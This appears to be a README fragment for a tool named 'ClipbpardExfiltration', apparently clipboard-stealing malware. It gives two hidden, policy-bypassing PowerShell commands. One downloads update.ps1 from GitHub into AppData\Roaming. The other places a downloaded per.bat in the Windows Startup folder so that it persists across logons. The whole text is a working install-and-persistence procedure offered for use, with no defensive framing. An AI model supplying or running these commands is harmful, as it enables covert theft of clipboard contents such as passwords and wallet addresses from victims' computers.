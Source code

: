 Save update.ps1 to $env:userprofile\AppData\Roaming 

`powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'`

Then save the bat file into startup programs

`powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat" -UseBasicParsing'`
